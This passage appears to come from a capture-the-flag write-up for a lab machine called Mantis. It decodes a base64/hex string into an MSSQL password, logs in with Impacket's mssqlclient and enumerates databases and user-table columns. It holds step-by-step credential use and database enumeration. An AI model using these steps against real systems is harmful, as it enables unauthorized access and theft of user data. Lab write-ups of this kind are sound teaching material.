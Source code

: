 ```
root@sushi:~# echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d
6d2424716c5f53405f504073735730726421
```
So at first we think that's some kind of hash as it looks like md5, but it doesn't seem to turn up much
```
root@sushi:~# hashid 6d2424716c5f53405f504073735730726421
Analyzing '6d2424716c5f53405f504073735730726421'
[+] Unknown hash
```
Then we realize it starts with m$$ and is hex awesome.
```
root@sushi:~# echo "6d2424716c5f53405f504073735730726421" | xxd -r -ps
m$$ql_S@_P@ssW0rd!
```
### MSSQL Enumeration

Great we have what looks like the sa password or maybe the admin user password from the note, so we check with mssqlclient  and can login with the admin account nice. 
```
root@sushi:~# mssqlclient.py admin@10.10.10.52
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> select name from dbo.sysdatabases
master                                                                                                                            
tempdb                                                                                                                            
model                                                                                                                             
msdb                                                                                                                              
orcharddb                                 
```
We can poke around and check for any usernames in the database.
```
SQL> SELECT COLUMN_NAME 'All_Columns' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='User' 
blog_Orchard_Users_UserPartRecord 
blog_Orchard_Roles_UserRolesPartRecord
                                                                                                                        
SQL> use orcharddb
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.

SQL> SELECT COLUMN_NAME 'All_Columns' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord '
Id                                                                                                                                
UserName                                                                                                                          
Email                                                                                                                             
NormalizedUserName                                                                                                                
```